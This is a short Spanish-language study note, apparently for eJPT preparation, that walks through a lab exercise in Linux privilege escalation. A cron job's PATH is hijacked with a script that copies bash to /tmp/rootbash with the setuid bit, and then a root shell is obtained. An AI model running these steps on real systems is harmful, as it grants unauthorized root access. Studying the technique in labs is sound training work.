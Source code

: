 - Vea el contenido del crontab de todo el sistema:

```
cat /etc/crontab
```
Tenga en cuenta que la variable PATH comienza con /home/user, que es el directorio de inicio de nuestro usuario.

- Cree un archivo llamado overwrite.sh en su directorio de inicio con el siguiente contenido:
```
#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash
```

- Asegúrese de que el archivo sea ejecutable:

```
chmod +x /home/user/overwrite.sh
```

- Espere a que se ejecute el trabajo cron (no debería tardar más de un minuto). Ejecute el comando /tmp/rootbash con -p para obtener un shell que se ejecute con privilegios de root:

```
/tmp/rootbash -p
```

Recuerde eliminar el código modificado, eliminar el ejecutable /tmp/rootbash y salir del shell elevado antes de continuar, ya que creará este archivo nuevamente más adelante en la sala.

```
rm /tmp/rootbash  
exit
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/Cron Jobs - File Permissions]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/Cron Jobs - Wildcards]]
